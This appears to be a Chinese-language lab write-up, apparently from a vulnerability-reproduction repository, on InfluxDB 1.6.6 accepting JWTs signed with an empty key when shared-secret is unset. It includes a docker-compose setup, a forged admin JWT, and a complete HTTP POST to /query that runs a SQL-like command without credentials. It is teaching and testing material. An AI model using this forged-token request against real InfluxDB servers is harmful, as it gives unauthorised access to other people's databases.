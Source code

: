 # influxdb未授权访问漏洞

influxdb是一款著名的时序数据库，其使用jwt作为鉴权方式。在用户开启了认证，但未设置参数`shared-secret`的情况下，jwt的认证密钥为空字符串，此时攻击者可以伪造任意用户身份在influxdb中执行SQL语句。

参考链接：

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## 漏洞环境

执行如下命令启动influxdb 1.6.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8086/debug/vars`即可查看一些服务信息，但此时执行SQL语句则会出现401错误：

![](1.png)

## 漏洞复现

我们借助<https://jwt.io/>来生成jwt token：


```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 1676346267
}
```

其中，`admin`是一个已经存在的用户，`exp`是一个时间戳，代表着这个token的过期时间，你需要设置为一个未来的时间戳。

最终生成的token：

![](2.png)

发送带有这个jwt token的数据包，可见SQL语句执行成功：

```
POST /query HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjc2MzQ2MjY3fQ.NPhb55F0tpsp5X5vcN_IkAAGDfNzV5BA6M4AThhxz6A
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

db=sample&q=show+users
```

![](3.png)